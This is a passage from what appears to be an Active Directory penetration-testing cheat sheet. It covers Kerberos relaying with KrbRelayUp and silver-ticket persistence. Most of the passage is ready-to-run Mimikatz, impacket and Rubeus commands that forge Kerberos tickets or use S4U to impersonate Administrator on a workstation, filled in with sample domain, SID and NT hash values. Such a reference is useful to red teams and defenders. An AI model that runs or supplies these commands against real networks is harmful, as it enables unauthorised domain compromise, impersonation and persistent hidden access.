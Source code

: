 * https://www.trustedsec.com/blog/a-comprehensive-guide-on-relaying-anno-2022/
* [All Relay attacks covered by @vendetce (pdf)](https://www.blackhillsinfosec.com/wp-content/uploads/2022/09/Coercions-and-Relays-The-First-Cred-is-the-Deepest.pdf)
* [All Relay attacks covered by @vendetce (youtube)](https://www.youtube.com/watch?v=b0lLxLJKaRs)
* https://www.youtube.com/watch?v=b0lLxLJKaRs
* https://www.blackhillsinfosec.com/wp-content/uploads/2022/09/Coercions-and-Relays-The-First-Cred-is-the-Deepest.pdf

# Kerberos Relay
### KrbRelayUp
KrbRelayUp is a one off toll that automate all the kerberos relaying steps to coerce DCOM authentication from system user. This can be abused by doing [RBCD](#resource-based-constrained-delegation) or [Shadow Credentials](#shadow-credentials) attack. The tool can be found in the original repository [here](https://github.com/Dec0ne/KrbRelayUp)and a compiled version can be found in Flangvik's [SharpCollections](https://github.com/Flangvik/SharpCollection) repo.
```powershell
KrbRelayUp.exe full -m [rbcd|shadowcred] -f
```

# Persistence

### Silver Ticket
A silver ticket is quite different from a [Golden Ticket](#golden-ticket), it will be signed and encrypted with a computer account hash itself. As how kerberos works for ST request, for example if we are requesting *cifs* service for a workstation, the ST would be encrypted with the workstation's computer account hash. Hence, if a computer account hash is compromised, we could forge a ticket to access any service and impersonate as any local users available. 

| Attribute           | Value                                     |
| ------------------- | ----------------------------------------- |
| Domain              | range.net                                 |
| Domain SID          | S-1-5-21-2004564407-2130411480-2428574852 |
| Computer nthash/Aes | 95e392df668ca6bd103b905856acb8a9          |
| SPN                 | cifs/ws01.ran.net                         |
| User                | Administrator                             |
```css
# Mimikatz
kerberos::golden /domain:range.net /sid:S-1-5-21-2004564407-2130411480-2428574852 /rc4:95e392df668ca6bd103b905856acb8a9 /user:Administrator /target:ws01.range.net /service:cifs /ptt

# impacket
ticketer.py -nthash 95e392df668ca6bd103b905856acb8a9 -domain-sid S-1-5-21-2004564407-2130411480-2428574852 -domain range.net -spn cifs/ws01.range.net Administrator
```
In the case where silver ticket produces a lot of error, one way of achieving the same goal is by doing a **s4u2self** to impersonate any users that are available on the workstation. *Note that the spn value must contain a valid hostname or FQDN or the workstation.*
```powershell
# Rubeus
Rubeus.exe s4u /user:ws01$ /rc4:95e392df668ca6bd103b905856acb8a9 /domain:range.net /dc:192.168.86.182 /impersonateuser:Administrator /msdsspn:cifs/ws01.range.net /altservice:http,host,ldap /ptt

# Impacket
getST.py range.net/ws01\$ -hashes :95e392df668ca6bd103b905856acb8a9 -impersonate Administrator -spn cifs/ws01.range.net
```
